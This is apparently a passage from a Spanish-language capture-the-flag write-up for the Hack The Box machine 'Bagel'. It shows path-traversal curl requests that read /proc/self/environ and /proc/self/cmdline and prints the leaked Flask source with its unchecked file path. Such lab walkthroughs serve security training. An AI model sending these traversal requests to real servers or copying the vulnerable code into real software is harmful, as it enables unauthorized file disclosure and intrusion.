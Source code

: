 En este punto se enumeran directorios clave para obtener información con contraseñas, la ruta a ssh no nos muestra nada y al ser una página estática no podríamos ver archivos de configuración para obtener información, por lo que procedemos a enumerar procesos. La primera ruta interesante es /proc/self/environ para saber que variables de entorno se están utilizando.

```shell
❯ curl --output - "http://bagel.htb:8000/?page=../../../../../../../../proc/self/environ"
LANG=en_US.UTF-8PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/binHOME=/home/developerLOGNAME=developerUSER=developerSHELL=/bin/bashINVOCATION_ID=8ce5d47f704b41889edcf4e134473ab0JOURNAL_STREAM=8:25021SYSTEMD_EXEC_PID=889  
```
No encontramos nada interesante por lo que podemos intentar revisar en la ruta /proc/self/cmdline para obtener información sobre el proceso que se está ejecutando.

```shell
❯ curl --output - "http://bagel.htb:8000/?page=../../../../../../../../proc/self/cmdline"
python3/home/developer/app/app.py
```
En esta obtuvimos un archivo conde podemos ver cómo está montada la aplicación de las órdenes.

```python
from flask import Flask, request, send_file, redirect, Response
import os.path
import websocket,json

app = Flask(__name__)

@app.route('/')
def index():
        if 'page' in request.args:
            page = 'static/'+request.args.get('page')
            if os.path.isfile(page):
                resp=send_file(page)
                resp.direct_passthrough = False
                if os.path.getsize(page) == 0:
                    resp.headers["Content-Length"]=str(len(resp.get_data()))
                return resp
            else:
                return "File not found"
        else:
                return redirect('http://bagel.htb:8000/?page=index.html', code=302)

@app.route('/orders')
def order(): # don't forget to run the order app first with "dotnet <path to .dll>" command. Use your ssh key to access the machine.
    try:
        ws = websocket.WebSocket()    
        ws.connect("ws://127.0.0.1:5000/") # connect to order app
        order = {"ReadOrder":"orders.txt"}
        data = str(json.dumps(order))
        ws.send(data)
        result = ws.recv()
        return(json.loads(result)['ReadOrder'])
    except:
        return("Unable to connect")

if __name__ == '__main__':
  app.run(host='0.0.0.0', port=8000)
```
Vemos que en el puerto 5000 está utilizando websocket para obtener la información de las órdenes que visualizamos en la ruta /orders. la variables orders está tomando un valor json donde parece ser una función y su valor. en comentario ponen la existencia de un dotnet.dll y una clave ssh por lo que procedemos a enumerar otros procesos para encontrar este archivo.

